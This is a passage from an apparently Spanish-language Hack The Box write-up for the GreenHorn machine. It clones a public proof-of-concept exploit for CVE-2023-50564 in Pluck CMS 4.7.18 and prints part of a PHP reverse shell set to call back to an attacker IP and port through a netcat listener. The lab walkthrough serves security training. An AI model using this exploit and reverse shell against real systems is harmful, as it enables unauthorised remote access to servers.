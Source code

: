 Clonaremos este repositorio en nuestro directorio de trabajo y lo organizaremos a nuestro gusto. En mi caso, puse un nombre más simple y le di permisos de ejecución a los archivos con extensión **py**.

```bash
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits]
└─$ git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git         
Cloning into 'CVE-2023-50564_Pluck-v4.7.18_PoC'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 17 (delta 1), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (17/17), 12.58 KiB | 62.00 KiB/s, done.
Resolving deltas: 100% (1/1), done.
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits]
└─$ mv CVE-2023-50564_Pluck-v4.7.18_PoC Pluck-4.7.18
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits]
└─$ cd Pluck-4.7.18 
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ chmod +x *.py      
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ ls -l 
total 24
-rw-rw-r-- 1 kali kali 1732 Jul 24 17:46 README.md
-rwxrwxr-x 1 kali kali 1262 Jul 24 17:46 poc.py
-rw-rw-r-- 1 kali kali 9318 Jul 24 17:46 shell.php
-rw-rw-r-- 1 kali kali 2693 Jul 24 17:46 shell.rar
```

De la _Reverse Shell_ debemos realizar dos pequeños cambios: nuestra dirección IP y el puerto que estará en escucha con **netcat/nc** para realizar la conexión.

```php
...
...
...

echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.207', 8043);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

```
Lo siguiente es modificar el exploit llamado "Poc.py", donde le añadiremos el hostname "greenhorn" para completar la URL correctamente.
